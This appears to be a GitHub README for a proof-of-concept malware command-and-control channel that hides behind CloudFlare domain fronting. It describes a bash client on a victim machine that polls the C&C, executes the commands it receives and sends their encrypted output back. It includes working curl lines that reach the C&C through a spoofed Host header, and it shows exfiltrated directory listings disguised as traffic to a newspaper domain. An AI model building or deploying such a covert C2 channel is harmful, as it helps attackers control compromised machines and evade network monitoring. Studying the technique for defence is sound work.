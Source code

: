 # CloudFlare C&C POC
Before to start, let me say that I'm not a super expert on how to write a C&C client-server. This want to be a POC on how a Malware can hide behind a "fake" CloudFlare domain (see this post for more information: https://medium.com/@themiddleblue/cloudflare-domain-fronting-an-easy-way-to-reach-and-hide-a-malware-c-c-786255f0f437)

![](http://i.imgur.com/ZTsKokU.gif)

### How it work
The client, on the "Victim" PC, is a bash script that uses cURL to connect to CloudFlare and OpenSSL to encrypt all communications from and to CloudFlare/C&C. It simply make 2 HTTP request each *n* seconds: The first one, in order to discover a CloudFlare IP address, try to connect to a "real" CloudFlare website. The second one, make a fake request to CloudFlare to reach our C&C.

```bash
# get any usable CloudFlare IP address
CFIP=$(curl -v -I http://medium.com 2>&1 | egrep -o '\d+\.\d+\.\d+\.\d+' | head -1)

# get updates from my C&C
curl -H "Host: myfakedomain.com" "http://${CFIP}/?nocache=`date +%s`"
```

When the client receive an update, it decrypt the response_body and execute the command. Then it encrypt the command output and send it back to the C&C. The bash script uses OpenSSL to encrypt and decrypt.

![hiw](http://i.imgur.com/hYzqMWx.png)

Following, a screenshot that shows how the client requests appear sniffing the http traffic on the victim PC.
![ws](http://i.imgur.com/ilVKfgV.png)

First, we have a CloudFlare IP `104.16.122.127` as a destination IP address:
```bash
$ whois 104.16.122.127
...
OrgName:        Cloudflare, Inc.
OrgId:          CLOUD14
Address:        101 Townsend Street
City:           San Francisco
StateProv:      CA
PostalCode:     94107
Country:        US
RegDate:        2010-07-09
Updated:        2017-02-17
Comment:        All Cloudflare abuse reporting can be done via https://www.cloudflare.com/abuse
Ref:            https://whois.arin.net/rest/org/CLOUD14
...
```

Then we see a POST request to `corriere.it` hostname (an italian daily newspaper), and in the request body we have the encrypted `ls -lart /tmp/` output.
